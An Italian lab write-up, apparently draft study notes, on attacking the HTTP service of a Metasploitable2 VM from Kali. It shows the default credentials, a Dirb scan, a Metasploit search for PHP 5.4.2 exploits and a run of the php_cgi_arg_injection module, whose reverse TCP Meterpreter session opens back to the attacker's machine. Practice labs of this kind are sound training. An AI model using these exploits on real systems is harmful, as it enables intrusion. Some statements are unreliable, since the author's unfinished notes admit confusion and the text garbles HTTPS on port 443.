 L'HyperText Transfer Protocol (HTTP) è un protocollo a livello applicativo usato per la trasmissione d'informazioni sul web. Un server HTTP generalmente resta in ascolto delle richieste dei client sulla porta 80 usando il protocollo TCP a livello di trasporto; mentre sulla porta 443 si usa il più ben noto HTTP, la differenza sta nell'uso di un protocollo di crittografia attraverso TLS.

Gli attacchi a questo protocollo sono i più disparati vanno dal bypass dell'autenticazione dal lato client, fino al XSS (cross site scripting).

Vedremo adesso come sarebbe possibile accedere alla macchina metasploitable2 attraverso varie strade:
La più semplice consiste nel fare proprio il footprinting del servizio, quindi per prima cosa colleghiamoci ad esso attraverso un browser

<img src="/imgs/HTTP_grabbing.png" width="400"> </br>

Come al solito l'informazione che otteniamo per accedere al terminale è msfadmin/

Ma passiamo a qualcosa di più interessante. Per prima cosa utilizziamo un tool già installato sulla nostra macchina Kali, ovvero Dirb, il quale si occupa di fare __Web Context Scanner__ e quindi si occupa di trovare tutti i Web Object (nascosti o meno). Sostanzialmente funziona lanciando un attacco basato su dizionario, presente già sulla macchina Kali all'indirizzo __"/usr/share/wordlists/dirb/big.txt"__, e analizzando le risposte che ci vengono fornite.

Le pagine HTTP presentano una serie di valori in base allo stato della pagina, l'elenco è facilmente trovabile online https://it.wikipedia.org/wiki/Codici_di_stato_HTTP.

Ora per le nostre necessità abbiamo bisogno di lanciare il seguente comando, il quale si occuperà di usare il dizionario __big.txt__ con il flag __-X__ effettuiamo la ricerca per trovare i path presenti nel dizionario con estensione __.php__. Se lo lanciassimo senza quest'opzione troverebbe tutti i possibili percorsi nascosti che combaciano con quelli nel dizionario.

Il risultato è mostrato di seguito:
```
root@kali:~# dirb http://192.168.139.129 /usr/share/wordlists/dirb/big.txt -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec 12 23:43:37 2021
URL_BASE: http://192.168.139.129/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.139.129/ ----
+ http://192.168.139.129/index.php (CODE:200|SIZE:891)                                                                                                    
+ http://192.168.139.129/phpinfo.php (CODE:200|SIZE:48119)                                                                                                
                                                                                                                                                          
-----------------
END_TIME: Sun Dec 12 23:44:01 2021
DOWNLOADED: 20458 - FOUND: 2

```

La cosa più bella di Dirb è che i risultati ottenuti possono essere aperti direttamente fornendo una vista del risultato

<img src="/imgs/HTTP_Dirb.png" width="500"> </br>

Così facendo abbiamo la possibilità di usare il file per effettuare l'enumerazione di tutti i servizi attivi e le risorse della macchina. Ma torniamo all'utilizzo di metasploit, il file __phpinfo.php__ ci dà anche informazioni sulla versione di php attiva sul server. Vediamo cosa trova metasploid:
```
root@kali:~# msfconsole

msf6 > search php 5.4.2

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/multi/http/op5_license                       2012-01-05       excellent  Yes    OP5 license.php Remote Command Execution
   1  exploit/multi/http/php_cgi_arg_injection             2012-05-03       excellent  Yes    PHP CGI Argument Injection
   2  exploit/windows/http/php_apache_request_headers_bof  2012-05-08       normal     No     PHP apache_request_headers Function Buffer Overflow


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/http/php_apache_request_headers_bof
```

Abbiamo non uno ma ben tre exploit disponibili, di cui due con una classificazione __Excellent__ concentramoci su questi. Il primo __exploit/multi/http/op5_license__ ci permette di eseguire comandi da remoto come root sulla macchina targhet, il nostro compito è quindi mandare un payload da far eseguire per garantirci una shell sulla macchina.

--__DEVO CAPIRE UN ATTIMO STA PARTE PERCHé NON L'HO SCRITTA BENE ma a quanto pare di default usa il payload php/meterpreter/reverse_tcp nello specifico un reverse_tcp permette di aprire una connessione ma dal target a me, in questo modo un firewall non blocca niente__

Mentre la seconda opzione __exploit/multi/http/php_cgi_arg_injection__ ci informa sulla vulnerabiltià di argument injection. Nello specifico questo modulo sfrutta il flag __-d__ per impostare l'esecuzione di codice nella pagina php.ini.

__--Sono arrivato qui ed ho pure fatto l'exploit, solo che non sono sicuro di aver avuto accesso all'altra macchina ma penso più alla mia .-. LOL cmq devo capire un attimos /129 è la target 128 sono io__
```
msf6 exploit(multi/http/php_cgi_arg_injection) > set lhost 192.168.139.128
lhost => 192.168.139.128
msf6 exploit(multi/http/php_cgi_arg_injection) > set rhost 192.168.139.129
rhost => 192.168.139.129
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 192.168.139.128:4444 
[*] Sending stage (39282 bytes) to 192.168.139.129
[*] Meterpreter session 1 opened (192.168.139.128:4444 -> 192.168.139.129:41864) at 2021-12-13 00:45:40 -0500

meterpreter > sessions
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>
```

